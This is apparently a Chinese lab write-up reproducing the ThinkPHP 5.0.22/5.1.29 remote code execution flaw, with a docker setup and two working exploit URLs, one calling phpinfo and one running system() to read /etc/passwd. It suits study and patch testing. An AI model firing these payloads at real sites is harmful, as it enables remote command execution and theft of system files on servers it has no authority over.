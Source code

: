# ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

## 漏洞描述

ThinkPHP 是一款运用极广的 PHP 开发框架。其版本 5 中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

参考链接：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## 环境搭建

运行 ThinkPHP 5.0.20 版本：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到 ThinkPHP 默认启动页面。

## 漏洞复现

直接访问 `http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行 phpinfo：

![image-20220302150446791](images/202203021504893.png)

执行系统命令：

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/etc/passwd
```

![image-20220302150508363](images/202203021505433.png)

## 开源 POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE
